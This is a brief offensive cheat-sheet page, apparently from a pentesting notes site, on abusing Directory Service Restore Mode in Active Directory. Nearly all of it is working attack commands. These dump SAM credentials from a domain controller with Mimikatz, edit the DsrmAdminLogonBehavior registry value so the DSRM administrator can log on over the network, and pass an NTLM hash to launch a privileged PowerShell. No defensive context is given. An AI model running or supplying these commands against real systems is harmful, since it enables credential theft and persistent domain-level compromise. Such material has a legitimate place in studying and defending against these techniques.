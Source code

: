 ```yaml
---
layout: page
title: "# Abuse DSRM (Directory Service Restore Mode)"
permalink: /ad_cheatsheets/abuse_dsrm
---
```


# Abuse DSRM (Directory Service Restore Mode)

## Extract Creds From SAM From DC

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

## Modify the Register (to be able to login)

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

## Pass The Hash DSRM Administrator

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd  /run:powershell.exe"'
```
